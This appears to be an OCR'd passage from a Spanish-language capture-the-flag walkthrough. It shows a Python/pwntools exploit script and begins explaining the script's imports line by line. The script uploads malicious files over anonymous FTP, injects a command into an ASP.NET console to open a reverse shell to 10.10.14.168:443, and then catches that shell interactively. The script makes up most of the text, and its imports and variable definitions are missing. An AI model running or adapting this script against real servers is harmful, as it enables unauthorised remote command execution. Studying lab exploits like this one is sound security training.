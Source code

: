 ```python

def uploadFiles():

    ftp = FTP()
   # ftp.set_debuglevel(2)
    ftp.connect("10.10.10.5", 21)
    ftp.login('anonymous', '')

    for malicious_file in malicious_files:

        ftp.storbinary("STOR %s" % malicious_file, open(malicious_file, "rb"))

def makeRequest():
    
    s = requests.session()

    r = s.get(console_url)

    post_data ={
             '__VIEWSTATE': re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0],
             '__EVENTVALIDATION': re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0], 
             'txtArg': 'C:\inetpub\wwwroot\%s -e cmd 10.10.14.168 443' % malicious_files[1],
             'testing': 'excute',
     }
     
     #RCE
     r = s.post(console_url,data=post_data)
     
 if __name__ == '__main__':
 
     uploadFiles()
     try:
         threading.Thread(target=makeRequest, args=()).start()
     except Exception as e:
         log.error(str(e))
 
     shell = listen(lport, timeout=20).wait_for_connection()
 
     shell.interactive()
```

1. `#!/usr/bin/python3`: Esta línea es un shebang que especifica que el script debe ejecutarse con Python 3.

2. `from pwn import *`: Se importa el módulo `pwn`. Este módulo es una herramienta para escribir exploits y trabajar con binarios y conexiones de red de una manera sencilla.

3. `from ftplib import FTP`: Se importa la clase FTP del módulo `ftplib`, que permite interactuar con servidores FTP.

4. `import requests, re , pdb, time, threading`: Se importan otros módulos utilizados en el script: `requests` para hacer solicitudes HTTP, `re` para trabajar con expresiones regulares, `pdb` para el depurador (que no parece estar en uso), `time` para trabajar con funciones relacionadas con el tiempo, y `threading` para trabajar con hilos (threads).
